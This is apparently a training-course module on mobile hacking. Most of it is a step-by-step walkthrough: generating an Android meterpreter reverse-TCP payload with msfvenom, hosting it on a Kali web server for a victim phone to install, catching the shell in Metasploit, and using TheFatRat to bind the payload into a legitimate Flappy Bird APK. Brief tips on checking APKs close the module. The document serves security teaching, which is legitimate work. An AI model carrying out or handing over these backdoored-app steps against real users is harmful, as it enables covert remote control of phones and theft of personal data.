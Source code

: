 # Module 17

**Mobile hacking**

In todays world mobile security is big question because most person use mobile devices in globally. So the device security also has a major factor. Because if mobile device get compromised by hacker he can gain every data about the user.

**Attacking vector of mobile hacking** 

**Point 1 – Device** 

Browser: 

Through browser attacker can perform social engineering attack, he also become man in the middle attack, clickjacking, data caching.

Phone & SMS :

Here also hacker perform social engineering attack, he send the direct message to the victim like he won the prizes or lottery and in that message link also was provided so victim click that link and visit the hacker web page.

Apps:

Attacker or hacker create malicious app with premium content. So it attract the user and and download the app and become the victim.

**POINT 2 – Network**

An user easily use public wifi which is not safe most of the time. Because through wifi packet sniffing, credential dumping, man in the attack can be performed easily.

Lets perform attack with Metasploit

First create payload and than transfer it to the  victim

As far as we had seen this command many time that we had created payload with msfvenom

Command :- msfvenom -p android/meterpreter/reverse\_tcp LHOST=\_\_\_\_ LPORT=\_\_\_\_ X > /root/Desktop/reverse.apk

![](Aspose.Words.b763c26e-bba8-4bbe-a45d-6ba8bf30fe2c.001.png)

Paste this payload to the kali webserver

Command :- cp reverse.apk /var/www/html/asad

Open the kali website

Comman:- service apache2 start

Open the link to the android browser.

Link :- <http://192.168.1.178/asad>

We got the file, save It & install it and  give all the permission what it need.

![](Aspose.Words.b763c26e-bba8-4bbe-a45d-6ba8bf30fe2c.002.jpeg)

Know open the Metasploit and repeat the process, 

- use exploit/multi/handler/ 
- set payload android/meterpreter/reverse\_tcp
- set lhost & rport 
- run 

our listener is open know lets open our payload.

As soon as we open the payload 

We got the shell.

![](Aspose.Words.b763c26e-bba8-4bbe-a45d-6ba8bf30fe2c.003.png)

We can see here, we run the command sysinfo, it reveal the information.


Before installing any apk first check it, choose your safe side to be prevent from hacker.

There is a website which check the apk, it is online tool.

Source :- <https://www.sisik.eu/apk-tool>

And before installing upload that file there and check which type of permission is taking

If we find malicious ignore it.

Lets see another method of android hacking.

Basically these days attacker send the apk formate apps or broadcast the app for the user to install the app

For this attack we will use FATRAT tool to bind the legitimate app with  payload.

Source :- <https://github.com/screetsec/TheFatRat>

Run the tool:

- git clone https://github.com/Screetsec/TheFatRat.git
- cd TheFatRat
- chmod +x setup.sh && ./setup.sh
- cd TheFatRat
- chmod +x chk\_tools 
- ./chk\_tools

Boot the fat rat

- Than select the option 5 – Backdooring original apk
- Give LHOST & LPORT 
- Give the path of original apk which we downloaded that is flappy bird
- Choose the payload, option no 3 – android/meterpreter/reverse\_tcp
- Select tool no 3 – msfvenom  embedded method & type yes.
- Our payload is binded to the original apk
- Cp that file to the kali server.
- Start the apache server.
- Go to the victim phone .
- Enter the link and download that flappy bird file.

Know turn on the listener from Metasploit.

Know boot that game from android phone.

After booting we got the shell in Metasploit

Note:- don’t believe in free premium apk. It will be a trap for the user. But not all are doing this
Md Asad Ansari

Security analyst

asad@craw.in
